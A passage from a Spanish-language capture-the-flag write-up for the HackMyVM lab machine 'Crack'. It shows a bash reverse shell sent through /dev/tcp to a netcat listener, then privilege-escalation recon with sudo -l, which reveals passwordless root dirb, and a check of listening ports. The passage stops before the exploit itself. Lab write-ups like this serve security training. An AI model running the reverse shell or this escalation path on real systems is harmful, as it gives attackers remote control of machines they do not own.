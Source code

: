 ### Reverse Shell
Antes de comenzar la escalada de privilegios me gustaría enviarme una `Shell` a mi máquina como **`Cris`** ya que no me siento muy cómodo en el navegador:

Para ello comenzaré por ponerme en escucha con **`NetCat`**, en mi caso será por el puerto `4444`:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Crack]
└─# nc -nlvp 4444
listening on [any] 4444 ...
```

Una vez en escucha procederé a entablarme la conexión, para ello utilizaré una `Reverse Shell` en **`Bash`**:

```sh
cris@crack:~$ bash -c "bash -i >& /dev/tcp/192.168.1.110/4444 1>&0"
```

Tras pulsar `enter` veremos que recibimos la conexión de manera exitosa:

```sh
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Crack]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.1.110] from (UNKNOWN) [192.168.1.112] 60276
cris@crack:~$
```

### Subida de privilegios
Una vez dentro de la máquina comencé por conocer los comandos que podía correr ahí, para ello hice **`sudo -l`**:

```sh
cris@crack:~$ sudo -l
Matching Defaults entries for cris on crack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cris may run the following commands on crack:
    (ALL) NOPASSWD: /usr/bin/dirb
```

Vemos que podemos ejecutar **`dirb`** como cualquier usuario sin necesidad de la contraseña, es decir, podemos correrlo como `root`.

**`DIRB`** es una herramienta de `fuzzing` web, por lo que no hay ninguna opción para ejecutar comandos, aunque tenemos una opción para utilizar una `wordlist` (diccionario) personalizada.

Anntes de comenzar con la explotación me gustaría ver si tienen algún puerto interno abierto:

```sh
cris@crack:~$ ss -nltp
State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess                          
LISTEN 0      128        127.0.0.1:22         0.0.0.0:*                                    
LISTEN 0      50           0.0.0.0:12359      0.0.0.0:*    users:(("python3",pid=480,fd=3))
LISTEN 0      128          0.0.0.0:4200       0.0.0.0:*                                    
LISTEN 0      32                 *:21               *:*
cris@crack:~$
```
